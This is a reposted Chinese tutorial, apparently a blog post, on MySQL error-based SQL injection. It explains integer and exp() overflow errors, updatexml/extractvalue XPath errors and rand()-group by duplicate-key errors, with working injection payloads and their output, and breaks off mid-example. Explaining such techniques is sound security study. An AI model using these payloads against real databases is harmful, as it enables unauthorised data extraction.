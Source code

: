 ```yaml
---
title: "[转] Mysql注入后利用"
date: 2018-01-06 01:33:18
tags: [mysql,sql,injection]
---
```


SQL报错注入就是利用数据库的某些机制，人为地制造错误条件，使得查询结果能够出现在错误信息中。这种手段在联合查询受限且能返回错误信息的情况下比较好用，毕竟用盲注的话既耗时又容易被封。

MYSQL报错注入个人认为大体可以分为以下几类：

1. BIGINT等数据类型溢出
2. xpath语法错误
3. concat+rand()+group_by()导致主键重复
4. 一些特性

下面就针对这几种错误类型看看背后的原理是怎样的。

<!--more-->

## 0x01 数据溢出

这里可以看到mysql是怎么处理整形的：[Integer Types (Exact Value)](https://dev.mysql.com/doc/refman/5.5/en/integer-types.html)，如下表：

![img](https://edu.aqniu.com/files/default/2017/03-08/142134e6bab6545212.jpg)

在mysql5.5之前，整形溢出是不会报错的，根据官方文档说明[out-of-range-and-overflow](https://dev.mysql.com/doc/refman/5.5/en/out-of-range-and-overflow.html)，只有版本号大于5.5.5时，才会报错。试着对最大数做加法运算，可以看到报错的具体情况：

```Bash
mysql> select 18446744073709551615+1;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(18446744073709551615 + 1)'
```

在mysql中，要使用这么大的数，并不需要输入这么长的数字进去，使用按位取反运算运算即可：

```Mysql
mysql> select ~0;
+----------------------+
| ~0                   |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec)

mysql> select ~0+1;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + 1)'
```

我们知道，如果一个查询成功返回，则其返回值为0，进行逻辑非运算后可得1，这个值是可以进行数学运算的：

```Mysql
mysql> select (select * from (select user())x);
+----------------------------------+
| (select * from (select user())x) |
+----------------------------------+
| root@localhost                   |
+----------------------------------+
1 row in set (0.00 sec)

mysql> select !(select * from (select user())x);
+-----------------------------------+
| !(select * from (select user())x) |
+-----------------------------------+
|                                 1 |
+-----------------------------------+
1 row in set (0.01 sec)

mysql> select !(select * from (select user())x)+1;
+-------------------------------------+
| !(select * from (select user())x)+1 |
+-------------------------------------+
|                                   2 |
+-------------------------------------+
1 row in set (0.00 sec)
```

同理，利用exp函数也会产生类似的溢出错误：

```Mysql
mysql> select exp(709);
+-----------------------+
| exp(709)              |
+-----------------------+
| 8.218407461554972e307 |
+-----------------------+
1 row in set (0.00 sec)

mysql> select exp(710);
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'
```

注入姿势：

```Mysql
mysql> select exp(~(select*from(select user())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'
```

利用这一特性，再结合之前说的溢出报错，就可以进行注入了。这里需要说一下，经笔者测试，发现在mysql5.5.47可以在报错中返回查询结果：

```Mysql
mysql> select (select(!x-~0)from(select(select user())x)a);
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'
```

而在mysql>5.5.53时，则不能返回查询结果

```Mysql
mysql> select (select(!x-~0)from(select(select user())x)a);
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(`a`.`x`)) - ~(0))'
```

此外，报错信息是有长度限制的，在mysql/my_error.c中可以看到：

```Mysql
/* Max length of a error message. Should be
kept in sync with MYSQL_ERRMSG_SIZE. */

#define ERRMSGSIZE (512)
```

## 0x02 xpath语法错误

从mysql5.1.5开始提供两个[XML查询和修改的函数](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html)，extractvalue和updatexml。extractvalue负责在xml文档中按照xpath语法查询节点内容，updatexml则负责修改查询到的内容:

```Mysql
mysql> select extractvalue(1,'/a/b');
+------------------------+
| extractvalue(1,'/a/b') |
+------------------------+
|                        |
+------------------------+
1 row in set (0.01 sec)
```

它们的第二个参数都要求是符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里：

```Mysql
mysql> select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
mysql> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
```

## 0x03 主键重复

这里利用到了count()和group by在遇到rand()产生的重复值时报错的思路。网上比较常见的payload是这样的：

```Mysql
mysql> select count(*) from test group by concat(version(),floor(rand(0)*2));
ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'
```

可以看到错误类型是duplicate entry，即主键重复。实际上只要是count，rand()，group by三个连用就会造成这种报错，与位置无关：

```mysql
mysql> select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;
ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'
```

这种报错方法的本质是因为`floor(rand(0)*2)`的重复性，导致group by语句出错。`group by key`的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中更新临时表的数据；如果key不在临时表中，则在临时表中插入key所在行的数据。举个例子，表中数据如下：

```mysql
mysql> select * from test;
+------+-------+
| id   | name  |
+------+-------+
| 0    | jack  |
| 1    | jack  |
| 2    | tom   |
| 3    | candy |
| 4    | tommy |
| 5    | jerry |
+------+-------+
6 rows in set (0.00 sec)
```

我们以`select count(*) from test group by name`语句说明大致过程如下：

- 先是建立虚拟表，其中key为主键，不可重复：

| key  | count(*) |
| ---- | -------- |
|      |          |

- 开始查询数据，去数据库数据，然后查看虚拟表是否存在，不存在则插入新记录，存在则count(*)字段直接加1：

| key  | count(*) |
| ---- | -------- |
| jack | 1        |

| key  | count(*) |
| ---- | -------- |
| jack | 1+1      |

| key  | count(*) |
| ---- | -------- |
| jack | 1+1      |
| tom  | 1        |

| key   | count(*) |
| ----- | -------- |
| jack  | 1+1      |
| tom   | 1        |
| candy | 1        |

当这个操作遇到rand(0)*2时，就会发生错误，其原因在于rand(0)是个稳定的序列，我们计算两次rand(0)：

```mysql
mysql> select rand(0) from test;
+---------------------+
| rand(0)             |
+---------------------+
| 0.15522042769493574 |
|   0.620881741513388 |
|  0.6387474552157777 |
| 0.33109208227236947 |
|  0.7392180764481594 |
|  0.7028141661573334 |
+---------------------+
6 rows in set (0.00 sec)

mysql> select rand(0) from test;
+---------------------+
| rand(0)             |
+---------------------+
| 0.15522042769493574 |
|   0.620881741513388 |
|  0.6387474552157777 |
| 0.33109208227236947 |
|  0.7392180764481594 |
|  0.7028141661573334 |
+---------------------+
6 rows in set (0.00 sec)
```

同理，floor(rand(0)*2)则会固定得到011011...的序列(这个很重要)：

```mysql
mysql> select floor(rand(0)*2) from test;
+------------------+
| floor(rand(0)*2) |
+-----------
```